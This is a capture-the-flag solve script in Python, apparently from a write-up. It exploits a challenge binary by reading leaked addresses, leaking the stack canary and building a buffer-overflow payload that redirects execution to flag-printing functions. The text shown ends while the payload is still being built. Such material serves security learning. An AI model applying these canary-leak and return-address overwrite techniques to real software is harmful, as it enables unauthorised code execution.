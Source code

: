 ### Solve script:
```py
from pwn import * 
import os 

  # This shows the ./program process PID
 # If you're using tmux
# context.terminal = ['gnome-terminal', '--'] # If you're using gnome-terminal

p = process("./program")
#p = remote("chal.firebird.sh", 35020)

print(f"[*] Python script PID: {os.getpid()}")
print(f"[*] Binary PID: {p.pid}")

p.recvuntil(b"you are in ")
UwU_main_addr = int(p.recvuntil(b" ").strip(), 16)
print("[*] UwU_main address:", hex(UwU_main_addr))
# Get output until the UwU location is printed
p.recvuntil(b"UwU is in ")
uwu_addr = int(p.recvuntil(b"\n").strip(), 16)  # This will get 0x7fff4a896940 as int
print("[*] UwU address:", hex(uwu_addr))

# Calculate rbp address (UwU is at rbp-0x70)

rbp_addr = uwu_addr + 0x70
print("[*] RBP address:", hex(rbp_addr))

UwU_main_offset = 0xe27
know_more_offset = 0xd97
main_offset = 0xfaf
UwU_flag_offset = 0xc60
know_more_addr = UwU_main_addr - UwU_main_offset + know_more_offset
main_addr = UwU_main_addr - UwU_main_offset + main_offset
UwU_flag_addr = UwU_main_addr - UwU_main_offset + UwU_flag_offset

print("[*] main address:", hex(main_addr))
passcode_addr = main_addr - 0xfaf + 0x104a + 0x2010a2

# Now we can continue with the rest of the exploit
p.recvuntil(b"Please enter a choice (1:Yes, 2:Yes):")
p.sendline(b'1')

# ... rest of your exploit
p.recvuntil(b"Please enter an address e.g. 0x7fffdeadbeef:")
canary_location = hex(rbp_addr - 8)
p.sendline(canary_location)
p.recvuntil(b"contains ")
leaked_canary = int(p.recvuntil(b"\n").strip(), 16)
print("[*] leaked canary:", hex(leaked_canary))
payload = b'UwUUwU'+ b'A' * 82 # 88 bytes to get to canary
payload += p64(leaked_canary) # replace with variable that stores it
payload += b'A' * 8 # goes to return address 
payload += p64(know_more_addr)
payload += p64(UwU_flag_addr)
payload += b'1' * 8 # padding between deadbeef and rbp 
payload += b'2' * 8 # padding between deadbeef and rbp 
payload += p64(0xdeadbeef)
payload += b'3' * 8 # padding between deadbeef and beefdead  
payload += b'4' * 8 # padding between deadbeef and beefdead  
payload += p64(0xbeefdead)


```